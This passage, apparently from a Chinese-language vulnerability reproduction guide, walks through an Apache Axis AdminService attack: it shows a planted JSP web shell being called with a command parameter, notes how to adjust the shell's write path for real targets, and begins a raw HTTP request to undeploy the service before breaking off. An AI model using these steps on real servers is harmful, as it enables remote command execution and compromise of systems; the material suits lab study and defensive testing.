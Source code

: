 ![image-20230630164243555](images/image-20230630164243555.png)

shell 地址：

```
view-source:http://your-ip:8080/axis/shell.jsp?c=pwd
```

![image-20230630164400748](images/image-20230630164400748.png)

这里的 shell 写入路径 LogHandler.fileName 为 `../webapps/axis/shell.jsp`，实际遇到的目标启动路径可能不同，需要根据实际对写入的路径做相应的变动。

卸载服务：

```
POST /axis/services/AdminService HTTP/1.1
Host: your-ip:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 458

<?xml version="1.0" encoding="utf-8"?>
  <soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
```